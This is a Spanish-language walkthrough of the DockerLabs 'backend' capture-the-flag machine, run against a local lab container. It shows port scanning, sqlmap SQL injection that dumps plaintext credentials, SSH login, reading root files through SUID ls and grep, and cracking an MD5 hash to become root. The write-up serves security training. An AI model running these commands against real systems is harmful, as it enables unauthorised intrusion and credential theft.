



Maquina backend de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Fácil



# INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Aug 29 19:18:27 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-08-29 19:18:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPJ46ajVOvTej11m5rYDjs9KAJUbzC1iUdAloBEabTXlpaBY6grCd3EAwDWE33L9E7lC5k9G+g2gNtsrAq79dw=
|   256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF6xGDDmewkLLpG4sexgnIhUkqp4QnkWeDoYn4PyDLS4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-title: test page
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 19:18:36 2024 -- 1 IP address (1 host up) scanned in 8.82 seconds
```

Como vemos está abierto el puerto 80 por el que esta siendo usado por apache y el puerto 22 usado por openSSH.

#### PUERTO 80:


Como vemos parece ser una página bajo mantenimiento pero vemos un login, pero luego de probar credenciales basicas como `admin:admin` o `root:root` y no conseguir nada, pruebo en poner una comilla para ver si trata de SQLi, pero como no nos muestra ningún error sino una página distinta, podriamos confirmar o descartar la idea usando sqlmap. Para hacerlo solo ejecutamos esto:

```css
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs --dump
```

como vemos, nos devuelve esto:

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

Por lo que si trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de ssh, por lo que simplemente probamos uno por uno ya que son 3, y vemos que el usuario pepe si tiene acceso

# ESCALADA DE PRIVILEGIOS

Ahora tendremos que escalar privilegios siendo el usuario pepe, si nos fijamos no existe sudo, por lo que podriamos buscar en el SUID de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/ls
/usr/bin/grep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Como vemos, el binario `ls` y `grep` estan en el SUID, por lo que podriamos intentar leer la home de root usando ls de la siguiente manera:

```css
/usr/bin/ls /root
```

```css
/usr/bin/ls /root/   
pass.hash
```

viendo que hay un pass.hash podemos intentar leerlo con grep ejecutando esto:

```css
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```

```css
e43833c4c9d5ac444e16bb94715a75e4
```

como vemos, parece ser un hash md5, por lo que lo podemos meter en [crackstation](https://crackstation.net/):



Como vemos, parece ser que el hash tiene la contraseña `spongebob34`, ahora escalamos a root ejecutando `su root` y metiendo la contraseña:

